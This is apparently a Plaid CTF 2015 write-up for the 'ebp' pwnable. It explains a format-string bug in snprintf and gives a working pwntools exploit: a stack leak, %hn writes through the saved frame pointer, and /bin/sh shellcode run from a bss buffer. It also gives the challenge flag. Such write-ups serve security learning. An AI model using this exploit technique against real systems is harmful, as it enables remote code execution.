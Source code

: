 #Plaid CTF 2015 Writeup:
##### Pwnable: 160 points 
##### Name: ebp
##### Description:
*nc 52.6.64.173 4545* 

*Download: %p%o%o%p.*

Running file on ebp:
>```bash
> $ file ebp
> ebp: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=4e8094f9986968cd856db5093810badbb0749fde, not stripped
>```

Checksec:
>```bash
>gdb-peda$ checksec
>CANARY    : disabled
>FORTIFY   : disabled
>NX        : disabled
>PIE       : disabled
>RELRO     : Partial
>```

A 32 binary and it seems like the NX flag is disabled which means we can execute shellcode

Analyzing the assembly the vulnerbility lies within the code for *make_response*:
>```assembly
>gdb-peda$ disas make_response
>Dump of assembler code for function make_response:
>   0x080484fd <+0>:	push   ebp
>   0x080484fe <+1>:	mov    ebp,esp
>   0x08048500 <+3>:	sub    esp,0x18
>   0x08048503 <+6>:	mov    DWORD PTR [esp+0x8],0x804a080
>   0x0804850b <+14>:	mov    DWORD PTR [esp+0x4],0x400
>   0x08048513 <+22>:	mov    DWORD PTR [esp],0x804a480
>   0x0804851a <+29>:	call   0x80483f0 <snprintf@plt>
>   0x0804851f <+34>:	leave  
>   0x08048520 <+35>:	ret    
>End of assembler dump.
>```

The C code for that looks something like this:
>```C
> char input[1024];  //&input is 0x804a080
> char output[1024]; //&output is 0x804a480
> int make_response(){
>   return snprintf(output,0x400,input);
>}
>```

where input and output are global variables

So it seems that this is a case of a format string vulnerbility. 

Which makes sense since the description hints at %p %o %o %p

To be safe we assume there is aslr enabled on the server. We also need to utilize the format string to gain an arbitrary write and gain control flow of the program.

#####1. ASLR
  A way to defeat aslr is to use the format string vulnerbility to leak an address of the stack out to us.
  We can do so by using the *%p* format 
  
#####2. Control flow
  Since a format string vulnerbility also gives us the ability to write to the stack with the *%n* format we can utilize this to write to an address on the stack. If the buffers where our input was stored on the stack we can simply wrap around the stack into our buffers and use our input as addresses, however since our buffers are global buffers they are instead stored in the bss segment of the program.
  
  To remedy this we first use part 1 and leak out a stack address, then we use a saved frame pointer (ebp) to write to somewhere lower on the stack. What we want on the stack is something that we actually want to write to, the *return address* location. We use the %hn to write the size of a short to the stack which maintains the integrity of the 4 most significant bytes, this works because we know the return address is also on the stack with the ebp. Doing so we create a pointer to the return address.
>```python
>r.send('%4$p\n') 
>
>addr = int(r.recv(0xa),16)+(OFFSET) #offset is the offset to the return address
>log.info('stack: %x'%addr)
>addr = addr&0xFFFF #we take only last 4 bytes so that we can make use the %hn format
>
>r.send('%.{0!s}u%4$hn\n'.format(addr)) ##write those bytes
>```

So now we have a pointer to the location of the return address, so we simply need to wrap around to that pointer and write to it. We wrap around to our written address and overwrite the previous return address, and have it point to our buffer in the bss. Also we know that on our text segment and bss segment starts with 0x0804 which is why we can have it pivot to the buffer by writing only the size of a *short*.
>>>```python
>lower = bufaddr&0xffff
>r.send(shellcode+'%.'+str(lower-len(shellcode))+'u%12$hn\n')
>```

Putting it together:

__Note:__ I used pwntools for this exploit but should be simple enough to convert to a regular python exploit
```python
from pwn import *

context.log_level = 'info'
r = remote('52.6.64.173',4545)

bufaddr = 0x804a080
OFFSET = 4 ##Offset to the return address

shellcode ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

r.send('%4$p\n') 

addr = int(r.recv(0xa),16)+(OFFSET)
log.info('stack: %x'%addr)
addr = addr&0xFFFF 

r.send('%.{0!s}u%4$hn\n'.format(addr))
lower = bufaddr&0xffff
r.send(shellcode+'%.'+str(lower-len(shellcode))+'u%12$hn\n')

r.interactive()
```
flag is *who_needs_stack_control_anyway?*
> more information about format strings: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
